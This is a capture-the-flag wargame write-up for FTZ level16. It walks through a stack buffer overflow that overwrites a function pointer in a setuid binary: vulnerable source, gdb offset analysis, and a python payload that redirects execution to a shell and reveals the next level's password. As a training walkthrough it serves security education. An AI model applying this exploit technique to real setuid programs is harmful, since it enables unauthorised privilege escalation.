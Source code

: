# Level16

## This level's goal
- Function pointer modulation

***

```
[level16@ftz level16]$ ls -l
-rwsr-x---    1 level17  level16     14017 Mar  8  2003 attackme
-rw-r-----    1 root     level16       235 Mar  8  2003 hint

[level16@ftz level16]$ cat hint

#include <stdio.h>

void shell() {
  setreuid(3097,3097);
  system("/bin/sh");
}

void printit() {
  printf("Hello there!\n");
}

main()
{ 
  int crap;
  void (*call)()=printit;
  char buf[20];
  fgets(buf,48,stdin);
  call();
}
```

```
[level16@ftz tmp]$ cat distance.c
#include <stdio.h>

void shell() {
  setreuid(3097,3097);
  system("/bin/sh");
}

void printit() {
  printf("Hello there!\n");
}

main()
{
  int crap;
  void (*call)()=printit;
  char buf[20];
  fgets(buf,48,stdin);
  call();

  printf("Input is : %s\n &buf  : %p\n &call : %p \n &crap : %p\n", buf, buf, &call, &crap);
}

[level16@ftz tmp]$ gcc distance.c -o distance
[level16@ftz tmp]$ gdb -q distance
(gdb) disass main
0x08048434 <main+3>:    sub    $0x38,%esp

[level16@ftz tmp]$ ./distance
AAAA
Hello there!
Input is : AAAA

&buf  : 0xbffff020
&call : 0xbffff048
&crap : 0xbffff04c
```

0x38 means 56bytes, buf(20bytes) + dummy(20bytes) + \*printit(4bytes,0xbffff048) + crap(4bytes,0xbffff04c) + dummy(8bytes) + SPF(4bytes) + RET(4bytes).

```
[level16@ftz tmp]$ gdb -q distance
(gdb) disass main
0x08048462 <main+49>:   call   *%eax

(gdb) break *0x08048462
(gdb) run
Starting program: /home/level16/tmp/distance
AAAA

(gdb) x/16x $esp
0xbfffe1b0:     0x41414141      0x0000000a      0x42015481      0x0804836a
0xbfffe1c0:     0x42130ef8      0x42130a14      0xbfffe1d8      0x080482d9
0xbfffe1d0:     0x42130a14      0x4000c660      0x08048419      0x08048492
0xbfffe1e0:     0x42130a14      0x40015360      0xbfffe208      0x42015574

(gdb) x/s 0xbfffe1b0
0xbfffe1b0:      "AAAA\n"

(gdb) x/x 0xbfffe1d8
0xbfffe1d8:     0x08048419

(gdb) x/x 0xbfffe1dc
0xbfffe1dc:     0x08048492

(gdb) x/x 0x08048419
0x8048419 <printit>:    0x83e58955

(gdb) disas printit
0x08048419 <printit+0>: push   %ebp
```

As above, I could see that the \*printit(0x08048419)'s address is printit(0x83e58955).

```
[level16@ftz level16]$ gdb -q attackme
(gdb) disass main
0x0804853f <main+39>:   call   *%eax

(gdb) x/x 0x0804853f
0x804853f <main+39>:    0xc3c9d0ff

(gdb) disass printit
0x08048500 <printit+0>: push   %ebp

(gdb) disass shell
0x080484d0 <shell+0>:   push   %ebp

```

The point is that you need to change \*printit()'s address to shell()'s adress.

The attack code will be 40 bytes dummy strings + shell()'s adress(0x080484d0).

```
[level16@ftz level16]$ (python -c 'print "A"*40+"\xd0\x84\x04\x08"'; cat) | ./attackme

id
uid=3097(level17) gid=3096(level16) groups=3096(level16)

my-pass
Level17 Password is "king poetic".
```


